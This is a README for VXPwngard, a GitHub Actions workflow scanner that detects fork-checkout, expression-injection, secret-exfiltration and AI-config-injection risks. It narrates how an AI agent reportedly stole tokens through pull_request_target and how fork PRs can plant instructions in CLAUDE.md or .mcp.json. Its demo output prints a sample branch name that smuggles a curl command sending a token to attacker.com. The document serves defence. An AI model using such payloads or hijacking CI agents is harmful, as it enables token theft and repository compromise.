


# VXPwngard

**CI/CD source-to-sink vulnerability scanner for GitHub Actions**

On March 1, 2026, an autonomous AI agent compromised multiple high-profile open-source projects in under 20 minutes using misconfigured CI/CD pipelines. The agent forked repos, submitted pull requests, and exfiltrated Personal Access Tokens through `pull_request_target` workflows that checked out fork code in privileged contexts. VXPwngard catches the exact vulnerability class that made it possible.

VXPwngard performs source-to-sink vulnerability scanning (also known as static taint analysis) on GitHub Actions workflow files to detect injection paths -- from attacker-controlled inputs (fork code, branch names, issue comments, PR titles) to dangerous sinks (shell execution, secret access, network exfiltration). It is the first scanner to detect AI configuration injection attacks across Claude (CLAUDE.md), GitHub Copilot (copilot-instructions.md), Cursor (.cursorrules), and MCP tooling (.mcp.json) -- where attackers weaponize fork PRs to hijack AI agents running in privileged CI contexts.

---

## The Attack Explained

GitHub Actions workflows triggered by `pull_request_target` run in the context of the base (target) repository, not the fork. This means they have access to repository secrets, write-scoped GITHUB_TOKEN, and all configured permissions. The trigger exists so maintainers can run trusted operations (labeling, commenting) on incoming PRs. The critical mistake is combining this privileged trigger with `actions/checkout` pointing at the pull request's head -- the fork code. When a workflow does this, every file in the attacker's fork executes with the base repository's full credentials.

The attack chain is straightforward: an attacker forks the target repository, modifies build scripts, test configurations, Makefiles, or package manager hooks to include malicious commands (secret exfiltration, backdoor injection, release tampering), then opens a pull request. The `pull_request_target` workflow checks out the fork code and runs the build. The malicious commands execute with write access to the repository and all its secrets. In documented incidents, attackers exfiltrated Personal Access Tokens to external servers, then used them to push malicious commits directly to main branches -- all within minutes, fully automated by AI agents. The same pattern applies to `issue_comment` triggers where branch names or comment bodies are interpolated into shell commands without sanitization.

---

## How It Works

VXPwngard uses a four-stage analysis pipeline:

1. **Parser** -- Reads GitHub Actions workflow YAML files and builds a structured representation of triggers, permissions, jobs, steps, expressions, and action references. Handles matrix strategies, reusable workflows, and composite actions.

2. **Source-to-Sink Tracker** -- Identifies attacker-controlled sources (`github.event.pull_request.head.sha`, `github.head_ref`, `github.event.comment.body`, `github.event.pull_request.title`, fork-checked-out file paths) and traces them through expression interpolations, environment variables, step outputs, and file artifacts to dangerous sinks (shell `run:` blocks, action `with:` inputs, network calls).

3. **Rule Engine** -- Evaluates 12 detection rules (VXS-001 through VXS-012) against the parsed workflow and source-to-sink graph. Each rule defines source patterns, sink patterns, required context conditions (trigger type, permissions, checkout target), and severity. Rules are defined in YAML for easy extension.

4. **Reporter** -- Outputs findings in multiple formats: human-readable console output with color and context, JSON for programmatic consumption, and SARIF for integration with GitHub Code Scanning, VS Code, and other SARIF-compatible tools.

---

## Features

- **12 detection rules** covering fork checkout exploits, expression injection, secret exfiltration, unpinned actions, and AI config injection
- **AI config injection detection** across Claude, GitHub Copilot, Cursor, and MCP tooling -- the first scanner to cover this attack surface
- **Source-to-sink vulnerability scanning** tracing attacker-controlled inputs through expressions, environment variables, and step outputs to dangerous sinks
- **SARIF output** for native GitHub Code Scanning integration -- findings appear in the Security tab
- **GitHub Action** -- drop-in workflow to scan every pull request in 10 lines of YAML
- **Remote scanning** -- scan any public GitHub repo by URL without cloning
- **Baseline management** -- suppress known findings and surface only new vulnerabilities
- **Auto-fix** -- pin unpinned third-party actions to immutable commit SHAs
- **Inline suppression** -- silence individual findings with `# vxpwngard:ignore` comments
- **Single binary** -- zero dependencies, all rules embedded, runs anywhere Go compiles

---

## Quick Demo



<details>
<summary>Text output</summary>

```
$ vxpwngard demo

VXPwngard Demo - Vulnerable Workflow Analysis
==============================================

Scanning: ci-vulnerable.yml (Fork Checkout Kill Chain)
  CRITICAL  VXS-001  pull_request_target with Fork Code Checkout
            Line 14: actions/checkout with ref: github.event.pull_request.head.sha
            Fork code executes in privileged base repo context with secret access.

  HIGH      VXS-007  Secret Exposed to Fork Code Execution
            Line 20: GITHUB_TOKEN passed to step executing fork-controlled code.
            Attacker-controlled build scripts can exfiltrate this token.

  HIGH      VXS-009  Unpinned Third-Party Action
            Line 24: codecov/codecov-action@v3 (mutable tag, not SHA-pinned).
            Supply-chain risk: tag can be force-pushed to point at malicious code.

  MEDIUM    VXS-012  Network Exfiltration in Privileged Context
            Line 27: curl to external URL with secret in Authorization header.
            Secrets can be exfiltrated to attacker-controlled endpoints.

Scanning: comment-trigger.yml (Microsoft/Akri Pattern)
  CRITICAL  VXS-002  Branch Name Injection via Expression Interpolation
            Line 13: github.head_ref interpolated directly in run block.
            Attacker sets branch name to: x"; curl attacker.com/steal?t=$TOKEN #

  HIGH      VXS-004  issue_comment Trigger Without Authorization Check
            Line 8: No author_association or org membership check.
            Any GitHub user can trigger this workflow by posting a comment.

  HIGH      VXS-006  Curl Pipe Bash Pattern
            Line 17: curl ... | bash executes remote code without verification.
            Compromised or MITM'd URL delivers arbitrary code execution.

  HIGH      VXS-008  Secret in Command-Line Argument
            Line 21: secrets.DEPLOY_TOKEN passed as CLI argument.
            Visible in process listing and shell history.

Scanning: ai-config-attack.yml (AI Config Injection)
  CRITICAL  VXS-001  pull_request_target with Fork Code Checkout
            Line 14: actions/checkout with ref: github.event.pull_request.head.ref
            Fork code executes in privileged base repo context with secret access.

  HIGH      VXS-010  AI Agent Configuration File in Fork Checkout
            Line 17: CLAUDE.md loaded from fork-controlled checkout.
            Attacker modifies CLAUDE.md to inject malicious instructions into AI agent.

  HIGH      VXS-011  MCP Configuration File in Fork Checkout
            Line 23: .mcp.json / mcp-config.json read from fork-controlled checkout.
            Attacker injects malicious MCP server endpoints to hijack AI tooling.

Summary: 11 findings (3 critical, 6 high, 2 medium) across 3 workflows.
```

</details>

---

## Install

**One-liner:**

```bash
curl -sSfL https://raw.githubusercontent.com/Vigilant-LLC/vxpwngard/main/install.sh | bash
```

**From source:**

```bash
go install github.com/Vigilant-LLC/vxpwngard/cmd/vxpwngard@latest
```

**Homebrew (macOS/Linux):**

```bash
brew install Vigilant-LLC/tap/vxpwngard
```

---

## Usage



### Scan workflows

**Important:** When given a directory, VXPwngard first looks for `.github/workflows/` and scans all YAML files there. If that directory doesn't exist, it **recursively scans all `.yml`/`.yaml` files** under the given path. Always point it at a specific repository root or workflows directory -- never at `/`, `~`, or other broad system paths.

```bash
# Scan all workflows in current repo (looks for .github/workflows/)
vxpwngard scan .

# Scan a specific workflows directory
vxpwngard scan path/to/.github/workflows/

# Scan a single file
vxpwngard scan .github/workflows/ci.yml

# Output as SARIF for GitHub Code Scanning
vxpwngard scan . --format sarif --output results.sarif

# Output as JSON
vxpwngard scan . --format json

# Fail on high severity or above (for CI gates)
vxpwngard scan . --fail-on high
```

### Run demo scenarios

```bash
# Run all demo scenarios with annotated output
vxpwngard demo

# Run a specific scenario
vxpwngard demo --scenario fork-checkout
vxpwngard demo --scenario microsoft
vxpwngard demo --scenario ai-injection

# List available scenarios
vxpwngard demo --list
```

### Baseline management

```bash
# Generate a baseline from current findings (suppress known issues)
vxpwngard baseline create

# Scan showing only new findings not in baseline
vxpwngard scan . --baseline .vxpwngard-baseline.json

# Update baseline after triaging new findings
vxpwngard baseline update
```

---

## What It Detects

| ID | Name | Severity | Description |
|----|------|----------|-------------|
| VXS-001 | pull_request_target with Fork Checkout | Critical | Workflow checks out fork code in privileged base repo context with secret access |
| VXS-002 | Branch Name Injection | Critical | Attacker-controlled branch name interpolated directly in shell `run:` block |
| VXS-003 | Filename Injection | High | Attacker-controlled filename (from PR diff) interpolated in shell context |
| VXS-004 | Comment Trigger Without Auth Check | High | `issue_comment` trigger with no `author_association` or membership verification |
| VXS-005 | Excessive Permissions on Untrusted Trigger | Medium | Write permissions granted on workflows triggered by external users |
| VXS-006 | Curl Pipe Bash | High | Remote script fetched and piped directly to shell interpreter |
| VXS-007 | Secret Exposed to Fork Code | High | Repository secret passed to step that executes attacker-controlled code |
| VXS-008 | Secret in Command-Line Argument | Medium | Secret interpolated into CLI arguments, visible in process listing |
| VXS-009 | Unpinned Third-Party Action | Medium | Action referenced by mutable tag instead of immutable commit SHA |
| VXS-010 | AI Agent Config in Fork Checkout | High | CLAUDE.md or similar AI config loaded from fork-controlled checkout |
| VXS-011 | MCP Config in Fork Checkout | High | .mcp.json or MCP config file read from fork-controlled checkout |
| VXS-012 | Network Exfiltration in Privileged Context | Medium | Outbound HTTP request with secret data in privileged workflow context |

**VXS-010** and **VXS-011** are unique to VXPwngard. No other CI/CD security scanner detects AI configuration injection attacks where an attacker modifies CLAUDE.md, .claude/settings.json, .mcp.json, or mcp-config.json in a fork pull request to hijack AI code review agents running in privileged CI contexts. These rules address a novel attack surface that emerged with the adoption of AI coding assistants in CI/CD pipelines.

---

## GitHub Action

Add VXPwngard to your repository as a GitHub Action to automatically scan workflow changes on every pull request:

```yaml
name: VXPwngard Security Scan
on:
  pull_request:
    paths:
      - '.github/workflows/**'
      - 'CLAUDE.md'
      - '.claude/**'
      - '.mcp.json'
permissions:
  contents: read
  security-events: write
jobs:
  vxpwngard:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: Vigilant-LLC/vxpwngard@v1
        with:
          fail-on: high
          sarif-upload: 'true'
```

Findings appear directly in the GitHub Security tab under Code Scanning alerts.

---

## Contributing

VXPwngard welcomes contributions, especially new detection rules. To add a rule:

1. Create a YAML rule file in `rules/` following the existing format (see `rules/VXS-001-prt-fork-checkout.yaml` for reference).
2. Add detection logic in `internal/rules/` if the rule requires new source or sink patterns.
3. Add a test case in `internal/taint/` with a sample vulnerable workflow. (The `taint` package name is an industry-standard term used internally.)
4. Add a demo workflow in `demo/vulnerable/workflows/` if the rule covers a distinct attack scenario.
5. Submit a pull request with a description of the real-world attack pattern the rule detects.

Please also report false positives. Accuracy is critical for a security tool -- a scanner that cries wolf gets disabled.

---

## About Vigilant

[Vigilant](https://vigilantnow.com) is a cybersecurity company with 16 years of experience standing between organizations and the threats that want to destroy them. We don't believe in passive defense -- we operate with a warfare mindset, hunting threats before they become breaches.

We built VXPwngard because we've weaponized these exact attack chains against banks, government agencies, and critical infrastructure in red team engagements. We know what these vulnerabilities look like from both sides of the wire. When autonomous AI agents started exploiting them at scale, we built the scanner we wished existed.

Our approach is built on three pillars:

- **Forensically Validated Detection & Response (FVDR)** -- our proprietary methodology that treats every detection as evidence, not just an alert. We don't just find threats. We prove them, document them, and guarantee they're closed.

- **[ThreatCert](https://vigilantnow.com)**, our attack surface intelligence platform. Where VXPwngard detects known pipeline injection patterns, ThreatCert maps your full external attack surface, models complete kill chains, and produces audit-ready evidence packages that satisfy regulators and boards, not just security teams.

- **[CyberDNA](https://vigilantnow.com)**, our analysis workspace and the home of Vigilant's zero-breach guarantee. Where our analysts correlate pipeline findings, supply chain risk, and external exposure into a single forensic picture of your environment, and stand behind the outcome.

Vigilant donates 25% of profit to organizations combating human trafficking and supporting orphan care worldwide.

For enterprise support, custom rule development, or security assessments, visit [vigilantnow.com](https://vigilantnow.com).

---

## Disclaimer

VXPwngard is provided as-is with no warranty. Use at your own risk. This tool identifies potential vulnerabilities but does not guarantee complete coverage. It is not a substitute for a professional security assessment.

---

## License

Apache-2.0. See [LICENSE](LICENSE) for the full text.

Copyright 2026 Vigilant.
